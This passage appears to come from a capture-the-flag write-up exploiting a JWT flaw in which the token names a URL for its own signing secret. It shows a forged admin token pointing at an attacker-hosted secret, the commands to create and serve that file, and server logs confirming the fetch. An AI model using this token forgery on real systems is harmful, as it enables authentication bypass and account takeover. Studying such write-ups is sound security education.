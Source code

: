 ```
# JWT
auth:eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZ3Vlc3QiLCJrZXkiOiJodHRwOi8vbG9jYWxob3N0OjMwMDAvLnNlY3JldCJ9.K0oretMk37oe6zmS7JE4J3kAQXjR-tVFbb5PNkl_S6Q
```

- impersonate `admin` user by exploiting the `JWT` vulnerability

![CyberChef Decryption](./writeup-images/15.png)

```
# impersonated JWT

auth:eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4iLCJrZXkiOiJodHRwOi8vMTcyLjE4LjAuMTo4MDAwL2F0dGFja2VyLXNlY3JldCJ9.6h7Md_9b5Wm-v73yYn8IEmfaqX5vMBYMOJYBvIQ6nVQ
```

- write your own `JWT secret` into a file and host the file for the server to fetch it


```
$ echo -n "pwned" > attacker-secret
```

- replace the new cookie in the website and reload the page to become `admin` user; notice that the server fetches the new `JWT secret` file

```
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.0.9 - - [31/Mar/2022 22:09:24] "GET /attacker-secret HTTP/1.1" 200 -
192.168.0.9 - - [31/Mar/2022 22:09:24] "GET /attacker-secret HTTP/1.1" 200 -
```
